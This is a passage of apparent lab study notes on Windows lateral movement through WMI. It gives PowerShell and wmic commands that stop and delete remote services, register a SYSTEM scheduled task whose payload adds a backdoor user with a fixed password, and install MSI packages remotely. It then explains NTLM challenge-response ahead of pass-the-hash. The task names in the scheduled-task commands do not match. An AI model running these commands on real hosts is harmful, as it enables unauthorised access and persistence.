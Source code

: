 ```
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

### Creating Scheduled Tasks Remotely with WMI

* **Ports: 135/TCP, 49152-65535/TCP (DCERPC), 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)**
* **Required Group Memberships: Administrators**

To create and execute a scheduled task:

```
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user contrxl aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "contrxl"
```

And then to delete the task once done:

```
Unregister-ScheduledTask -CimSession $Session -TaskName "contrxl"
```

### Installing MSI Packages Through WMI

* **Ports: 135/TCP, 49152-65535/TCP (DCERPC), 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)**
* **Required Group Memberships: Administrators**

If an MSI package is copied to the target system, WMI can be used to attempt to install it using:

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

This can be achieved on legacy systems with:

```
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```

### Use of Alternate Authentication Material

Alternate authentication material refers to a piece of data which can be used to access a Windows account without the password. This is possible because of how some Windows authentication protocols work like NTLM and Kerberos.

NTLM authentication works as follows:

1. Client sends authentication request to the server they want to access
2. Server generates a random number and sends it as a challenge to the client
3. Client combines his NTLM password hash with challenge (and other known data) to generate a response to the challenge and sends it back to the server for verification.
4. Server forwards both the challenge and response to the Domain Controller for verification
5. Domain Controller uses the challenge to recalculate the response and compares it to the initial client request. If they match, the client is authenticated, otherwise access is denied.
6. The server forwards the authentication result to the client.
